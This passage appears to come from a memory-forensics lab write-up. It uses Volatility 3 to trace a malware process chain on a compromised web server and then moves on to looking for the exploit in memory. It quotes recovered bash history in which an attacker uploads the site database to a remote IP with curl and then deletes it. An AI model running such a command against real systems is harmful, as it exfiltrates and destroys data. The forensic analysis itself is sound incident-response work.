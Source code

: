 In the event they have moved, to lets say a persistence method. You may see something like cron or systemd launching the malicious process as some basic examples.

#### Envars from malware chain

Reviewing the process chain's env vars will help us gain some context of where the process' are running, users, etc.

```text
$ vol3 -f hackypaws.mem linux.envar --pid 19769

$ vol3 -f hackypaws.mem linux.envar --pid 19772

$ vol3 -f hackypaws.mem linux.envar --pid 19801
```

There was not a ton of information from env vars, but we were able to learn the process `uf` with pid `19772` had a present working directory of `/opt/hackypaws`. That file path is actually where the website code is located on the webserver, more evidence of a web app vulnerability/exploit.

#### Bash History from Memory

Anytime you see a bash process in an attack chain, you should try to pull it's bash history. A lot of times bash processes in malware chains won't persist a `.bash_history` file, but the bash current session's history is typically stored in memory which vol3 can read.

For this to work, we're going to pull all bash session data and not specify a pid. This is going to catch a lot of non-malicious commands that were executed some time earlier by the hackypaws admin.

```text
$ vol3 -f hackypaws.mem linux.bash
```

Searching through the output a bit, these 2 commands should catch your eye.

```text
20251	bash	2024-05-21 04:28:37.000000 	curl -i -X POST -H "Content-Type: multipart/form-data" -F "data=@hackypaws.db" http://137.184.178.106:8000/upload_file
20251	bash	2024-05-21 04:28:37.000000 	rm hackypaws.db
```

Reading that curl command, this command uploads the hackypaws database to a remote site, and they deleted the file right after.

With the IOCs we have so far, deleting a database file could logically cause a 500 error that was seen, so that makes sense. This is the second time we've seen the IP `137.184.178.106` in an IOC.

### Gaining Exploit & App Context from Memory

Switching gears a bit here, now we understand the malware chain and some of the post exploitation pretty well. We're going to switch into looking for anything that could help us find the vulnerability in the app, and this includes finding any exploits from memory.

A good place to look for exploits in memory is memory maps. These generally contain all the data loaded for a process in binary form. It may include memory used by the process, but also loaded libraries and other binaries.

Vol3 can dump this data to a directory for us, where we can start searching. It's best to dump this in a new dir to keep your forensic dir organized.
